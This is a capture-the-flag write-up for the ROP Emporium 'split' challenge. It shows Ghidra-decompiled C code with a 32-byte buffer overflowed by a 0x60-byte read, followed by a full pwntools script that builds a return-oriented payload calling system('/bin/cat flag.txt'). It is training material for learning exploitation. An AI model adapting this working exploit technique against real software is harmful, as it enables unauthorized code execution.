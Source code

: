 # Split

## Reversing with Ghidra
### Main
```c
int main() {
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
### Pwnme
```c
void pwnme() {
  char input[32];
  
  memset(input, 0, 0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0, input, 0x60);
  puts("Thank you!");
  return;
}
```
### Useful Function
```c
void usefulFunction() {
  system("/bin/ls");
  return;
}
```

## The vuln
We can exploit the `buffer overflow` with a `ROPChain` that use a call to `system`, the string `/bin/cat flag.txt` (which is inside the binary).

**Other informations on the x86_64 writeup**

## The script
```python
from pwn import *

#
# Context
#

e = context.binary = ELF('split32')

#
# ROP
#

# Use pwntools to find gadgets and strings
BINCAT  = p32(next(e.search(b'/bin/cat flag.txt'))) # "/bin/cat flag.txt"
SYSTEM = p32(e.symbols["usefulFunction"] + 14) # call system; <junk>

info(f'BINCAT: {hex(next(e.search(b"/bin/cat flag.txt")))}')
info(f'SYSTEM: {hex(e.symbols["usefulFunction"] + 14)}')

#
# Offset
#

io = process(e.path)

io.sendlineafter(b'> ', cyclic(0x60))
io.wait()

core = io.corefile

io.close()

offset = cyclic_find(bytes.fromhex(hex(core.eip)[2:])[::-1])
info(f'Offset: {offset}')

#
# Exploit
#

payload  = b''
payload += b'A' * (offset)
payload += SYSTEM
payload += BINCAT


with open('payload', 'wb') as fout:
    fout.write(payload)

io = process(e.path)

io.sendlineafter(b'> ', payload)
io.wait()
c = io.corefile
info(io.recvuntil(b'}').decode())
io.close()
```